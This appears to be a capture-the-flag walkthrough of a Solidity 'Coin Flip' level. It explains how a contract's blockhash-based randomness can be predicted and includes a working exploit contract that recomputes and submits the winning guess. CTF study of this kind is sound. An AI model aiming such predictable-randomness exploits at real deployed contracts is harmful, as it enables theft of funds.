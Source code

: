 #### You will beat this level if
1. you guess the correct outcome 10 times in a row


##### Things that might help
- Use Remix to write the code and deploy it in the corresponding network See Remix Solidity IDE.
- Setup a local truffle project to develop and deploy the attack contracts. See Truffle Framework.

#### Understanding the contract
1. State Variables
```js
uint256 public consecutiveWins;
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```
- There are three state variables: ``consecutiveWins``, ``lastHash``, ``FACTOR``
- consecutive wins is set to public so it is easily accesible

2. Constructor
```js
constructor() {
consecutiveWins = 0;
}
```
- When deployed, this sets ``consecutiveWins`` to 0

3. Functions
```js
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```
- The flip function takes a ``bool`` as a parameter (``_guess``) and returns a bool
- A uint256 variable ``blockValue`` is created inside the function which is calculated using the previous block number
- The function reverts if ``lastHash`` and ``blockValue`` are equivalent
- ``lastHash`` is replaced with ``blockValue``
- A uint256 variable ``conflip`` is determined by dividing ``blockValue`` by ``FACTOR``
- A boolean ``side`` is created comparing ``conflip`` to 1
    - If ``side`` and ``_guess`` are equivalent, then ``consecutiveWins`` is incremented and ``flip`` returns true
    - If ``side`` and ``_guess`` are not equivalent, then ``consecutiveWins`` is set to 0 and ``flip`` returns false

#### Solving
- Solving this contract takes advantage of the fact that the contract uses ``blockNumber`` to create randomness. A second contract can be created that copies the logic from the original contract, making a call to the original contract after a solution is found
```s
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipExploit {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    ICoinFlip public coinFlipContract;

    constructor(address _coinFlipAddress) {
        coinFlipContract = ICoinFlip(_coinFlipAddress);
    }

    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinFlipContract.flip(side);
    }
}
```
- I compiled this contract with remix and connected my metmask wallet with the injected provider option
- To check the status after each flip, use the console:
```js
await contract.consecutiveWins()
```
- Calling the ``exploit`` function will cause the ``words`` array inside the return object will increment on each flip
- After 10 flips, hitting submit should complete the challenge
